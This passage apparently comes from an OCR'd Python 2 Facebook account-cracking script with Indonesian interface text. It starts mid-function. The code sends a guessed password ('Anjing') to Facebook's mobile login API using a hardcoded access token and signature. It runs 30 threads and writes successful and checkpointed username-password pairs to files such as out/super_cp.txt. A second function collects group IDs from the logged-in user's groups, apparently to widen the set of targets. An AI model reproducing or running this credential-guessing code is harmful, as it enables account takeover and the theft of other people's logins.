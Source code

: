  cekpoint.append(user+pass6)
 else:
 a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
 b = json.loads(a.text)
 pass7 = 'Anjing'
 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
 q = json.load(data)
 if 'access_token' in q:
 print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
 oks.append(user+pass7)
 else:
 if 'www.facebook.com' in q["error_msg"]:
 print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
 cek = open("out/super_cp.txt", "a")
 cek.write(user+"|"+pass7+"\n")
 cek.close()
 cekpoint.append(user+pass7)
 
 
 except:
 pass
 
 p = ThreadPool(30)
 p.map(main, id)
 print 42*"\033[1;96m="
 print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
 print"\033[1;96m[+] \033[1;92mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
 print("\033[1;96m[+] \033[1;92mCP File tersimpan \033[1;91m: \033[1;97mout/super_cp.txt")
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 super()

def grupsaya():
 os.system('clear')
 try:
 toket=open('login.txt','r').read()
 except IOError:
 print"\033[1;96m[!] \x1b[1;91mToken tidak ditemukan"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 try:
 os.mkdir('out')
 except OSError:
 pass
 os.system('clear')
 print logo
 print 42*"\033[1;96m="
 try:
 uh = requests.get('https://graph.facebook.com/me/groups?access_token='+toket)
 gud = json.loads(uh.text)
 for p in gud['data']:
 nama = p["name"]
 id = p["id"]
 f=open('out/Grupid.txt','w')
 listgrup.append(id)
 f.write(id + '\n')
 print "\033[1;96m[\033[1;92mGroup\033[1;96m]\x1b[1;97m "+str(id)+" \x1b[1;96m=>\x1b[1;97m "+str(nama)
 print 42*"\033[1;96m="
 print"\033[1;96m[+] \033[1;92mTotal Group \033[1;91m:\033[1;97m %s"%(len(listgrup))